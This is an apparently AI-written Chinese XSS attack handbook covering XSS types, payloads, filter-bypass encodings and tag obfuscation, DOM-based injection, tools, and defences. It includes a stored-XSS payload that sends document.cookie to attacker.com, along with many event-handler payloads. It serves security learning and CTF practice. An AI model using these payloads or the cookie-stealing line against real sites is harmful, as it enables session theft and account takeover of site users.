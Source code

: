 当然可以！下面是一个**全面且实用的 XSS 攻击手册**，涵盖基础知识、攻击方式、绕过技巧和相关解释，适合用于安全学习、CTF 比赛或漏洞挖掘参考。

---

# 🧠 XSS 攻击手册（Cross Site Scripting）

---

## 🏁 1. 什么是 XSS？

**XSS（跨站脚本攻击）**是指攻击者在网站页面中注入恶意 JavaScript 脚本，当其他用户访问该页面时脚本被浏览器执行，从而实现盗取 cookie、仿冒操作、跳转钓鱼网站等恶意行为。

### 典型 XSS 执行流程：

1. 攻击者向网站注入 JS 脚本（通过参数、输入框、数据库等）。
2. 受害者访问含有恶意脚本的页面。
3. 浏览器在用户不知情下执行恶意脚本。
4. 攻击者控制受害者浏览器，执行窃取或控制操作。

---

## 🧩 2. XSS 类型分类

| 类型        | 特点                                   | 持久性 | 处理位置   |
|-------------|----------------------------------------|--------|------------|
| **反射型**  | JS 代码不存储，仅在 URL 参数中反射执行 | 否     | 后端       |
| **存储型**  | JS 代码被存入数据库，每次访问都会触发 | 是     | 后端       |
| **DOM 型**  | 脚本注入并执行在前端 DOM 中            | 否     | 前端（JS） |

---

## 💥 3. 常见 XSS 利用方式

### ☠️ 脚本标签

```html
<script>alert('XSS')</script>
```

### 📷 图片标签（onerror）

```html
<img src="x" onerror="alert(1)">
```

### 📝 输入框（onfocus/onblur）

```html
<input onfocus="alert(1)" autofocus>
<input onblur="alert(1)" autofocus><input autofocus>
```

### 📂 details 标签（ontoggle）

```html
<details open ontoggle=alert(1)>
```

### 🎨 SVG 标签（onload）

```html
<svg onload="alert(1)">
```

### ⬇️ select 标签（onfocus）

```html
<select onfocus=alert(1) autofocus></select>
```

---

## 🚨 4. 常见攻击效果（危害）

1. 🐎 挂马：加载远程木马或钓鱼脚本。
2. 🍪 盗取 Cookie：窃取身份认证信息。
3. 🧠 模拟操作：仿冒用户操作执行敏感操作。
4. 📩 钓鱼跳转：伪造 UI 诱导用户点击。
5. 🐛 蠕虫攻击：自动传播注入代码。
6. 👻 DDoS 浏览器：大量弹窗、死循环。
7. 🧨 数据破坏：删除或篡改用户数据。
8. 📈 刷广告、统计量：利用 XSS 加载脚本刷点击等。

---

## 🧪 5. 实战 XSS 示例

### ✅ 反射型 XSS 演示链接

```plaintext
http://example.com/search?q=<script>alert(1)</script>
```

需要引诱用户点击该链接。

### ✅ 存储型 XSS

用户在留言板发表以下内容：

```html
<script>new Image().src="http://attacker.com/log?cookie="+document.cookie</script>
```

被储存在服务器，每次访问触发。

---

## 🛡️ 6. 绕过技巧（Bypass）

### 6.1 编码绕过

- 使用 URL 编码：
  ```html
  <script>alert(1)</script>
  %3Cscript%3Ealert(1)%3C/script%3E
  ```

- Unicode 编码：
  ```html
  \u003Cscript\u003Ealert(1)\u003C/script\u003E
  ```

- 十六进制编码（配合 innerHTML 解析）：

  ```html
  &#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
  ```

---

### 6.2 标签混淆

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
```

### 6.3 属性绕过

```html
<svg><script xlink:href="data:text/javascript,alert(1)"></script></svg>
```

### 6.4 JS事件属性绕过

```html
<div onclick=confirm(1)>Click</div>
```

```html
<a href="javascript:alert(1)">XSS</a>
```

---

### 6.5 DOM型常见 payload

```js
// 读取 location.hash
let x = location.hash
document.body.innerHTML = x; // 若无过滤，执行脚本
```

访问地址：

```
http://example.com/#<img src=1 onerror=alert(1)>
```

---

## 🔍 7. XSS 检测思路（审计要点）

- 是否将用户输入直接输出到 HTML 中。
- 输出前是否做过 HTML 实体编码（如 `htmlspecialchars()`）。
- JS 中是否直接拼接 `innerHTML`、`document.write()`。
- 是否存在危险事件处理函数（如 `onclick`）。
- 使用的输出函数是否支持自动编码。

---

## 🧰 8. XSS 利用工具

- **XSS 平台**：
  - [XSS平台](https://xss.pt/)
  - [XSSHunter](https://xsshunter.com)
- **BurpSuite**：拦截请求进行手动插入。
- **XSStrike**：自动化 XSS 测试工具。
- **BeEf**（浏览器攻击框架）：高级钓鱼利用。

---

## 🚧 9. XSS 防御建议

1. **编码输出（HTML Encode）**：对所有用户输入做 `htmlspecialchars`。
2. **严格 CSP**：设置 `Content-Security-Policy` 限制资源加载。
3. **HttpOnly Cookie**：防止通过 JS 获取 Cookie。
4. **输入校验**：黑白名单限制可输入内容。
5. **使用前端模板库**（如 React、Vue），它们自动处理 HTML 编码。

---

如果你想，我还可以给你整理一个**XSS 渗透测试清单**、**绕过练习题**或者**CTF 中常见题型总结**。需要吗？